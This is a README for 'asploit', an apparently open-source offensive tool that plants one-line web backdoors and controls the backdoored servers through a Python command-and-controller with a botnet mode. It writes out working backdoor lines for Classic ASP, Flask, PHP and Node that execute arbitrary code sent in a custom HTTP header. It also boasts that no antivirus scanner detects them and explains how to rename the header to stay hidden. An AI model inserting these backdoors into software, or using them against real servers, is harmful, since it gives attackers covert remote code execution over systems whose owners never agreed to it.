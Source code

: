 # asploit
This tool allows you to deploy and exploit backdoors with one line of code in Classic ASP, Flask, NodeJS, and PHP servers.

As of April 9, 2024, the backdoor is detected by none of the malware scanners on [VirusTotal](https://www.virustotal.com/gui/file/ea41fc39434119f35c84308b78f9d7925eb754fbc1ef24e5253a7c5d04446502).

Custom extensions can be created and installed to control any backdoored server.
# Command and Controller
## Setup
Install the prerequisites with `pip install -r requirement.txt` in the `src` folder.

If you're on Windows, run `pip install -r windows_requirements.txt`.
## Starting the Controller
The controller runs on Python. To start, run `main.py` in the `src` folder.
## Help
Type `help` to list all commands in the current shell. Changes depending on whether or not you've entered a botnet or exploit shell.
## Botnet Controlling
To control multiple backdoors at once, run `botnet` outside of an exploit shell to enter the botnet mode.
## Custom Backdoors/Exploits
### Loading Extensions
Load extensions using the `loadext` command before entering an exploit shell.

Run `help loadext` for more details.
### Creating Extensions
To make a custom exploit/extension, create a Python module containing a class/classes that extends the ExploitProcessor class.

View the `PHPExploitProcessor` in the `src` folder for an example of the implementation.
# Backdoor
## Backdoor Creation Script
Use the `create_backdoor.sh` script to generate the one line backdoor. The following is for reference.
### Classic ASP
Add the following line to the top of the file you want to have the backdoor
```
<% If request.servervariables("EXPLOIT") <> "" Then:execute(request.servervariables("EXPLOIT")):response.end:End If %>
```
### Flask
Add the following line to the top of the endpoint you want to have the backdoor
```
if request.headers.get('EXPLOIT'): global r;exec(__import__('base64').b64decode(request.headers.get('EXPLOIT').encode()).decode());return r;
```
### PHP
Add the following line to the top of the endpoint you want to have the backdoor
```
isset($_SERVER["HTTP_EXPLOIT"]) and eval($_SERVER["HTTP_EXPLOIT"]);
```
### Node
Add the following line to the endpoint you want to have the backdoor
```
if (req.headers?.exploit) return (eval('let r=res;let i=req;'+req.headers?.exploit));
```
Replace `res` with the `ServerResponse` parameter name, and replace `req` with the `IncomingRequest` parameter name.
#### Note
Only works if `fs` and `{ execSync } from 'child_process` is imported.

So in some cases, the backdoor may technically be up to three lines.
### Notes
Any area where `EXPLOIT` or `exploit` is referenced can be replaced with any custom HTTP header (eg. for PHP, `HTTP_EXPLOIT` -> `HTTP_ANYTHINGYOUWANT`).
# Contributing
Any help in this project would be appreciated, and feel free to make pull requests for any custom extensions you create.
# Thank You
This repository was inspired by [PHPSPLOIT](https://github.com/nil0x42/phpsploit).
